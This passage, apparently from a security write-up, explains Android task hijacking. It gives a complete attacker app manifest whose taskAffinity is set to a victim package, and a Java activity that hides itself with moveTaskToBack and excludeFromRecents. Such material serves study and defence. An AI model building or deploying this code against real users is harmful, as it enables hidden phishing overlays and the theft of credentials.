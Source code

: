 The `moveTaskToBack()` function minimizes the attacker app, keeping it hidden while it remains active. The `excludeFromRecents` attribute prevents the attacker app from appearing in the recent apps list, making detection even harder.

Example attacker app manifest:

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.tmh.attacker">

    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/Theme.Attacker"
        android:taskAffinity="com.tmh.victim">
        <activity android:name=".MainActivity" android:launchMode="singleTask" android:excludeFromRecents="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>

</manifest>
```

```java
package com.tmh.attacker;

import androidx.appcompat.app.AppCompatActivity;

import android.content.Intent;
import android.os.Bundle;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        moveTaskToBack(true);
    }

    @Override
    public void onResume(){
        super.onResume();
        setContentView(R.layout.activity_main);
    }
}
```
